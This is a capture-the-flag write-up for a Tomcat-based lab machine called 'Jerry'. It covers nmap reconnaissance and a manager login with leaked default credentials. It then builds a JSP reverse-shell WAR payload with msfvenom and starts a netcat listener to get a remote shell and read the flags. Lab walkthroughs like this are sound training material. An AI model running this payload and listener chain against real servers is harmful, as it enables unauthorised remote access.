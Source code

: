 # Jerry

![](../../../.gitbook/assets/jerry.png)

At the beginning, i start running nmap with some flags to execute default scripts and get services version.

```
sudo nmap -sC -sV $ip -Pn

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests

nmap --script vuln $ip -p 8080 -Pn

PORT     STATE SERVICE
8080/tcp open  http-proxy
| http-method-tamper:
|   VULNERABLE:
|   Authentication bypass by HTTP verb tampering
|     State: VULNERABLE (Exploitable)
|       This web server contains password protected resources vulnerable to authentication bypass
|       vulnerabilities via HTTP verb tampering. This is often found in web servers that only limit access to the
|        common HTTP methods and in misconfigured .htaccess files.
|
```

Knowing that it was about Tomcat, i open the browser and start to search into it's page(target:8080). After entering into management session, an user and password was request but until that moment I've never seen some signal of this authentication credentials, after try some admin/admin credentials i was answered with an error showing the default credentials.

(image)

Now with the credentials, is allowed login-in on the admin page

(image)

At this page we can see an fileupload field. Compering with my searching results about the tomcat version, it's may be vulnerable.

Trying upload some content, i've discovered that the field  supports only .war files, knowing it, was crafted an reverse shell payload with msfvenom and upload it.

```
sudo msfvenom -p java/jsp_shell_reverse_tcp LHOST=target_ip LPORT=4444 -f war > sample.war
```

After craft the payload, we start a tcp listening server with netcat,

```
nc -lvnp 4444
```

After that, the activation of shell is maded clicking on it's link on webpage. And we get an reverse access.

gain that access, we travel around the directory's searching for flags and in:

```
Directory of C:\Users\Administrator\Desktop\flags
```

We found an file called "flags.txt" after that, we type:

```
type *
```

And get both flags
